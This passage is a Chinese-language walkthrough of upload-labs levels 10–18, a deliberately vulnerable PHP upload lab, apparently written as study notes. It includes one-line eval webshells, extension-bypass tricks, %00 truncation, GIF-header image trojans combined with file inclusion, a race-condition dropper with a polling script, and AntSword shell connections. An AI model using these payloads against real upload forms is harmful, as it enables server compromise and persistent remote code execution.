+ 用<code>burpsuite</code>拦截并修改文件名<code>TenFirstMethod.php</code>为<code>TenFirstMethod.php. .</code>

+ 可以看到已经成功绕过，文件<code>TenFirstMethod.php</code>成功上传

+ 右键打开文件<code>TenFirstMethod.php</code>

+ 可以看到文件<code>TenFirstMethod.php</code>成功执行代码

### 方法二

+ 编辑脚本<code>TenSecondMethod.php</code>

~~~ shell
<?php @eval($_POST['TenSecond']); ?>
~~~

+ 上传文件<code>TenSecondMethod.php</code>

+ 用<code>burpsuite</code>拦截并将文件名<code>TenSecondMethod.php</code>改为<code>TenSecondMethod.php. .</code>

+ 右键打开上传的文件<code>TenSecondMethod.php</code>

+ 复制已经打开的文件<code>TenSecondMethod.php</code>的网址

+ 用蚁剑添加数据并配置

+ 添加数据成功

+ 双击添加的数据，<code>getshell</code>成功

## Pass11

### 方法一

+ 首先查看提示

+ 查看源码

这一关黑名单用<code>str_ireplace()</code>函数寻找文件名中存在的黑名单字符串将它替换成空，可用双写绕过黑名单

+ 编写脚本<code>ElevenFirstMethod.php</code>

+ 上传脚本文件<code>ElevenFirstMethod.php</code>

+ 使用<code>burpsuite</code>拦截并将脚本文件<code>ElevenFirstMethod.php</code>的后缀<code>.php</code>改为<code>.pphphp</code>

+ 最终成功上传脚本文件<code>ElevenFirstMethod.php</code>并右键打开脚本文件<code>ElevenFirstMethod.php</code>

+ 成功执行脚本文件<code>ElevenFirstMethod.php</code>

### 方法二

+ 查看提示

+ 查看源代码

+ 编辑脚本文件<code>ElevenSecondMethod.php</code>

+ 上传脚本文件<code>ElevenSecondMethod.php</code>

+ 同样用<code>burpsuite</code>拦截并将脚本文件<code>ElevenSecondMethod.php</code>的后缀<code>.php</code>改为<code>.pphphp</code>

+  成功上传文件<code>ElevenSecondMethod.php</code>并右键打开

+ 成功打开上传的脚本文件<code>ElevenSecondMethod.php</code>同时复制脚本文件的网址

~~~ shell
 http://192.168.12.55:8080/upload-labs/upload/ElevenSecondMethod.php
~~~

+ 用蚁剑添加数据并配置；<code>URL地址</code>填写上传文件的网址，<code>连接密码</code>根据脚本<code>ElevenSecondMethod.php</code>里的数据填写

+ 最终成功<code>getshell</code>，添加数据成功

+ 双击添加到的数据，成功连接

## Pass12

### 方法一

+ 首先查看提示

+ 查看源代码，关键代码是这句

~~~ shell
url中的%00（只要是这种%xx）的形式，webserver会把它当作十六进制处理，然后把16进制的hex自动翻译成ascii码值“NULL”,实现了截断burpsuite中16进制编辑器将空格20改成了00;
本质上来说，都是利用0x00是字符串的结束标识符，进行截断处理;
只不过GET传参需要url编码成%00而已;
原理：php的一些函数的底层是C语言，而move_uploaded_file就是其中之一，遇到0x00会截断，0x表示16进制，URL中%00解码成16进制就是0x00。
~~~

~~~ tex
%00截断
%00的使用是在路径上！
%00的使用是在路径上！
%00的使用是在路径上！
重要的话说三遍。如果在文件名上使用，就无法正常截断了。如：aaa.php%00bbb.jpg
~~~

~~~ tex
00截断的限制条件是PHP<5.3.29，且GPC关闭
因为当 magic_quotes_gpc 打开时，所有的 ' (单引号), " (双引号), \ (反斜线) and 空字符会自动转为含有反斜线的转义字符。
magic_quotes_gpc 着重偏向数据库方面，是为了防止sql注入，但magic_quotes_gpc开启还会对$_REQUEST, $_GET,$_POST,$_COOKIE 输入的内容进行过滤
~~~

<code>save_path</code>是一个可控的变量，后面还有一个后缀名需要绕过，这个时候需要使用<code>%00</code>截断，不过这个东西已经是旧时代的产物的，所以有使用条件

~~~ shell
php版本小于5.3.4
php的magic_quotes_gpc为OFF状态
~~~

+ 编辑脚本文件<code>TwelveFirstMethod.php</code>

+ 满足条件后上传脚本文件<code>TwelveFirstMethod.php</code>然后上传，用<code>burpsuite</code>拦截

+ 将请求的这两个地方修改

+ 由于条件不满足要求，主要是<code>php<code>版本不满足要求，所以最终得不到想要的结果

+ 这个案例没有太大的参考价值，直接跳过。。。

## Pass13

### 方法一

+ 首先查看提示

+ 查看代码

+ 编写脚本<code>ThirteenFirstMethod.php</code>

~~~ shell
<?php phpinfo(); ?>
~~~

+ 上传脚本<code>ThirteenFirstMethod.php</code>

+ 用<code>burpsuite</code>拦截上传脚本<code>ThirteenFirstMethod.php</code>

+ 修改<code>URL</code>网址和文件名如下

+ 选中<code>%00</code>，并右键选中转换，进行网址转换<code>decode</code>

+ 显示上传失败，应该是版本条件不满足

~~~ shell
需要满足以下条件:
	php版本小于5.3.4
	php的magic_quotes_gpc为OFF状态	
~~~

+ 挑战失败

## Pass14

### 方法一

+ 查看提示

+ 查看源代码，由此可判断这关会读取判断上传文件的前两个字节，判断上传文件类型，并且后端会根据判断得到的文件类型重命名上传文件，使用 `图片马 + 文件包含` 绕过

~~~ shell
补充知识：
1.Png图片文件包括8字节：89 50 4E 47 0D 0A 1A 0A。即为 .PNG。
2.Jpg图片文件包括2字节：FF D8。
3.Gif图片文件包括6字节：47 49 46 38 39|37 61 。即为 GIF 89(7)a。
4.Bmp图片文件包括2字节：42 4D。即为 BM。
~~~

+ 编写脚本文件<code>FourteenFirstMethod.php</code>，在一句话木马前加上下面这句代码

~~~ shell
GIF 89A
~~~

+ 上传脚本文件<code>FourteenFirstMethod.php</code>，由于上一步代码的添加脚本文件<code>FourteenFirstMethod.php</code>会被解析为<code>gif</code>文件

+ 右键打开上传的脚本文件<code>FourteenFirstMethod.php</code>，然后复制打开文件对应的网址

+ 要利用文件包含漏洞写一个<code>include.php</code>传入再解析图片才能执行木马，在这里打开文件包含漏洞链接

+ 重新构造<code>URL</code>，在文件包含漏洞的网址后加上传图片马的网址

~~~ shell
http://192.168.104.55:8080/upload-labs/include.php(文件漏洞)?file=upload/2620240211021030.gif(图片马)
~~~

+ 最后回车，代码成功执行

### 方法二

+ 编写脚本文件<code>FourteenSecondMethod.php</code>，在一句话木马前加上<code>GIF 89A</code>

~~~ shell
GIF 89A
<?php @eval($_POST['FourteenSecond']); ?>
~~~

+ 上传脚本文件<code>FourteenSecondMethod.php</code>

+ 由于第一步加上的代码<code>GIF 89A</code>，上传的文件<code>FourteenSecondMethod.php</code>会被解析为<code>GIF</code>文件

+ 右键打开<code>GIF</code>文件

+ 复制打开<code>GIF</code>文件网址

+ 利用文件包含漏洞

+ 重新构造<code>URL</code>，文件包含漏洞网址后加上图片马的文件位置

~~~ shell
URL=http://192.168.104.55:8080/upload-labs/include.php(文件包含漏洞)?file=upload/2620240211021030.gif(图片马位置)
~~~

+ 回车，文件成功执行

+ 打开蚁剑，添加配置数据如下，URL地址为文件包含漏洞网址后加图片马的文件位置，连接密码根据图片马而设置

+ 配置数据后连接成功，成功<code>getshell</code>

## Pass15

### 方法一

+ 查看提示

+ 查看源代码

~~~ shell
getimagesize()函数：
- 对目标的十六进制的前几个字符串读取。比如GIF的文件头问GIF89a，png的文件头为塒NG，然后返回一个具有四个单元的数组;
- 索引0包含图像宽度的像素值;
- 索引1包含图像高度的像素值;
- 索引2是图像类型的标记：1 = GIF，2 = JPG，3 = PNG，4 = SWF，5 = PSD，6 = BMP，7 = TIFF(intel byte order)，8 = TIFF(motorola byte order)，9 = JPC，10 = JP2，11 = JPX，12 = JB2，13 = SWC，14 = IFF，15 = WBMP，16 = XBM。这些标记与 PHP 4.3.0 新加的 IMAGETYPE 常量对应;
- 索引3是文本字符串，内容为"height="yyy" width="xxx""，可直接用于 IMG 标记;
~~~

+ 编写脚本<code>FifthteenFirstMethod.php</code>

~~~ shell
记事本打开代码文件，在文件头添加GIF 89A则文件会被解析为GIF图像
~~~

+ 上传脚本<code>FifthteenFirstMethod.php</code>

+ 点击上传后上传成功

+ 右键在新的标签页打开图像

+ 成功在新的标签页打开<code>GIF</code>图像，复制对应的<code>GIF</code>图像网址

+ 在这里打开文件包含漏洞地址

+ 文件包含漏洞的网址

+ 在后面加上<code>?file=文件地址</code>

+ 点确定，命令成功执行

###  方法二

+ 编写脚本<code>FifthteenSecondMethod.php</code>

+ 点击上传文件，上传成功

+ 右键在新的标签页打开图像

+ 成功在新的标签页打开<code>GIF</code>图像文件，复制图像的地址

+ 打开文件包含漏洞

+ 在新的标签页成功打开文件包含漏洞网页

+ 在文件漏洞网址后加上<code>?file=GIF文件地址</code>

+ 在蚁剑添加并配置数据如下，网址替换成自己电脑对应的<code>IP</code>

+ 成功添加数据

+ 双击打开网页链接，成功<code>getshell</code>

## Pass16

### 方法一

+ 查看提示

+ 知识补充：<code>exif_imagetype()</code>函数

~~~ tex
知识补充： exif_imagetype()读取一个图像的第一个字节并检查其后缀名;
返回值与getimagesize()函数返回的索引2相同，但是速度比getimagesize()快得多，同时要开启php_exif模块;
~~~

+ 查看源代码

+ 编写脚本<code>SixteenFirstMethod.php</code>

+ 上传脚本<code>SixteenFirstMethod.php</code>到上传点

+ 点击上传，发现页面被覆盖如下

+ 开启<code>phpstudy</code>的<code>php_exif</code>模块

+ 重新上传脚本<code>SixteenFirstMethod.php</code>，发现上传成功

+ 右键在新的页面打开图片链接

+ 成功在新的页面打开图片链接，同时复制图片链接的地址

+ 打开文件包含漏洞的页面

+ 成功打开文件包含漏洞的页面

+ 在文件包含漏洞页面的网址后加上<code>?file=图片网址</code>，成功执行脚本命令

### 方法二

+ 编写脚本<code>SixteenSecondMethod.php</code>

+ 上传脚本<code>SixteenSecondMethod.php</code>到注入点

+ 点击上传，成功上传脚本文件<code>SixteenSecondMethod.php</code>并被解析为<code>GIF</code>图像

+ 右键点击，在新的页面打开图像

+ 成功在新的页面打开图像，复制图像的网址

+ 打开有文件包含漏洞的页面

+ 在文件包含漏洞页面网址后加上后缀<code>?file=图片网址</code>，文件代码成功执行 

+ 打开蚁剑，添加数据并配置，<code>URL</code>地址为文件包含漏洞的页面网址加上<code>?file=图片网址</code>，而连接密码则由脚本<code>SixteenSecondMethod.php</code>决定

+ 成功添加数据

+ 双击添加的数据，成功<code>getshell</code>

## Pass17

### 方法一

+ [文件上传绕过—二次渲染漏洞](https://blog.csdn.net/weixin_45588247/article/details/119177948)

+ [ 文件上传绕过—条件竞争漏洞](https://blog.csdn.net/weixin_45588247/article/details/118796606?spm=1001.2014.3001.5501)

+ 首先查看提示

+ 查看源代码，源代码如下

~~~ shell
$is_upload = false;
$msg = null;
if (isset($_POST['submit'])){
    // 获得上传文件的基本信息，文件名，类型，大小，临时文件路径
    $filename = $_FILES['upload_file']['name'];
    $filetype = $_FILES['upload_file']['type'];
    $tmpname = $_FILES['upload_file']['tmp_name'];

    $target_path=UPLOAD_PATH.'/'.basename($filename);

    // 获得上传文件的扩展名
    $fileext= substr(strrchr($filename,"."),1);

    //判断文件后缀与类型，合法才进行上传操作
    if(($fileext == "jpg") && ($filetype=="image/jpeg")){
        if(move_uploaded_file($tmpname,$target_path)){
            //使用上传的图片生成新的图片
            $im = imagecreatefromjpeg($target_path);

            if($im == false){
                $msg = "该文件不是jpg格式的图片！";
                @unlink($target_path);
            }else{
                //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".jpg";
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.'/'.$newfilename;
                imagejpeg($im,$img_path);
                @unlink($target_path);
                $is_upload = true;
            }
        } else {
            $msg = "上传出错！";
        }

    }else if(($fileext == "png") && ($filetype=="image/png")){
        if(move_uploaded_file($tmpname,$target_path)){
            //使用上传的图片生成新的图片
            $im = imagecreatefrompng($target_path);

            if($im == false){
                $msg = "该文件不是png格式的图片！";
                @unlink($target_path);
            }else{
                 //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".png";
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.'/'.$newfilename;
                imagepng($im,$img_path);

                @unlink($target_path);
                $is_upload = true;               
            }
        } else {
            $msg = "上传出错！";
        }

    }else if(($fileext == "gif") && ($filetype=="image/gif")){
        if(move_uploaded_file($tmpname,$target_path)){
            //使用上传的图片生成新的图片
            $im = imagecreatefromgif($target_path);
            if($im == false){
                $msg = "该文件不是gif格式的图片！";
                @unlink($target_path);
            }else{
                //给新图片指定文件名
                srand(time());
                $newfilename = strval(rand()).".gif";
                //显示二次渲染后的图片（使用用户上传图片生成的新图片）
                $img_path = UPLOAD_PATH.'/'.$newfilename;
                imagegif($im,$img_path);

                @unlink($target_path);
                $is_upload = true;
            }
        } else {
            $msg = "上传出错！";
        }
    }else{
        $msg = "只允许上传后缀为.jpg|.png|.gif的图片文件！";
    }
}

~~~

+ 补充原理说明

~~~ tex
二次渲染原理：
    在我们上传文件后，网站会对图片进行二次处理（格式、尺寸要求等），服务器会把里面的内容进行替换更新，处理完成后，根据我们原有的图片生成一个新的图片并放到网站对应的标签进行显示。
~~~

~~~ tex
绕过：
    配合文件包含漏洞：
        将一句话木马插入到网站二次处理后的图片中，也就是把一句话插入图片在二次渲染后会保留的那部分数据里，确保     不会在二次处理时删除掉。这样二次渲染后的图片中就存在了一句话，在配合文件包含漏洞获取webshell;

    可以配合条件竞争：
        这里二次渲染的逻辑存在漏洞，先将文件上传，之后再判断，符合就保存，不符合删除，可利用条件竞争来进行爆破     上传;
~~~

+ 网上找到素材<code>22.gif</code>，用<code>010Editor</code>软件打开该<code>gif</code>文件并显示为16进制和2进制

+ 上传<code>22.gif</code>到上传点

+ 成功上传<code>22.gif</code>到上传点

+ 右键，选择在新的页面打开图像即可

+ 成功在新的页面打开图像，复制图像的网址

+ 右键，点击另存为方式保存图像为<code>23.gif</code>

+ 成功保存图像<code>23.gif</code>到指定位置

+ 用<code>010Editor</code>打开<code>22.gif</code>，搜索<code>22.gif</code>文件里的<code>php</code>，发现代码注入如下

+ 用<code>010Editor</code>打开<code>23.gif</code>，搜索<code>23.gif</code>文件里的<code>php</code>

发现经过二次渲染之后，注入的代码并没有被替换则代码可成功执行

+ 用<code>010Editor</code>打开<code>22.gif</code>和<code>23.gif</code>，并比较两者的二进制代码有什么不同，发现只有一个有差异的地方其他没变

+ 打开文件包含漏洞的页面

+ 在文件包含漏洞页面的网址后加上<code>?file=前面复制的已上传gif图像的地址</code>，并回车，代码成功执行

+ 在蚁剑上添加数据并配置如下

+ 点击添加，成功添加<code>shell</code>

+ 双击成功添加的<code>shell</code>，成功<code>getshell</code>

## Pass18 条件竞争一

+ 查看提示

+ 查看源码，如下

~~~ shell
$is_upload = false;
$msg = null;

if(isset($_POST['submit'])){
    $ext_arr = array('jpg','png','gif');
    $file_name = $_FILES['upload_file']['name'];
    $temp_file = $_FILES['upload_file']['tmp_name'];
    $file_ext = substr($file_name,strrpos($file_name,".")+1);
    $upload_file = UPLOAD_PATH . '/' . $file_name;

    if(move_uploaded_file($temp_file, $upload_file)){
        if(in_array($file_ext,$ext_arr)){
             $img_path = UPLOAD_PATH . '/'. rand(10, 99).date("YmdHis").".".$file_ext;
             rename($upload_file, $img_path);
             $is_upload = true;
        }else{
            $msg = "只允许上传.jpg|.png|.gif类型文件！";
            unlink($upload_file);
        }
    }else{
        $msg = '上传出错！';
    }
}
~~~

​        从源码看，服务器先将上传的文件保存下来，然后将文件的后缀名同白名单对比；如果是<code>jpg</code>、<code>png</code>、<code>gif</code>中的一种就将文件重命名，如果不符的话<code>unlink()</code>函数会删除该文件

​        如果还是上传一个图片马，若网站依旧存在文件包含漏洞还可利用；如果没有文件包含漏洞则只能上传一个<code>php</code>木马解析运行；

​        那怎么搞？上传上去就被删除了还怎么访问；不慌不慌，代码执行过程需要耗费时间了，如果能在上传的一句话木马被删除前访问即可，这个叫条件竞争上传绕过；

​         可利用<code>burp</code>多线程发包，然后不断在浏览器访问<code>webshell</code>会有一瞬间的访问成功；

+ 编写一句话木马脚本

~~~ php
<?php
    fputs(fopen('AttackScript.php','w'),'<?php @eval($_POST["EighteenSecond"])?>'); 
?>
~~~

把该<code>php</code>文件通过<code>burpsuite</code>不停重放，然后再写<code>python</code>脚本不停访问上传的文件，总有一瞬间是还没来得及删除就可被访问到，一旦访问到该文件就会在当前目录下生成一个<code>AttackScript.php</code>的一句话。正常渗透测试中这也是好办法，因为单纯访问带有<code>phpinfo()</code>的文件没什么效果，一旦删除还是无法利用；但这办法生成的<code>AttackScript.php</code>服务器不删除，可用蚁剑连接

+ 编写访问脚本<code>AttackScript.py</code>

~~~ python
import requests
url = "http://192.168.31.126:8080/upload-labs/upload/EighteenSecondMethod.php"
while True:
    response = requests.get(url)
    if response.status_code == 200:
        print("ok")
        break
~~~

+ 上传<code>php</code>文件并用<code>burpsuite</code>拦截

+ 进行下一步操作前不要把<code>burpsuite</code>的拦截功能关闭了，要一直保持拦截状态以达到测试更好的效果；然后将上传的脚本发到测试器

+ 配置下测试器，点击下<code>$清除</code>

+ 设置无限发送空的<code>payload</code>让其一直上传该文件

+ 把线程设置得高一点做到高并发

+ 点击<code>开始攻击</code>不断地发送<code>payload</code>

可以看到上传该文件的数据包不停地重放

+ BP攻击的同时我们也运行<code>python</code>脚本<code>AttackScript.py</code>，目的是不停访问<code>EighteenSecondMethod.php</code>直到成功访问到为止，当出现`OK`说明访问到了该文件，那么<code>AttackScript.php</code>应该也创建成功了

+ 将<code>burpsuite</code>的拦截功能解除

+ 用蚁剑添加数据并配置，这里的<code>url</code>是<code>http://192.168.31.126:8080/upload-labs/upload/AttackScript.php</code>，连接密码是<code>EighteenSecond</code>

+ 成功添加了<code>shell</code>

+ 双击数据后成功<code>getshell</code>

## Pass19

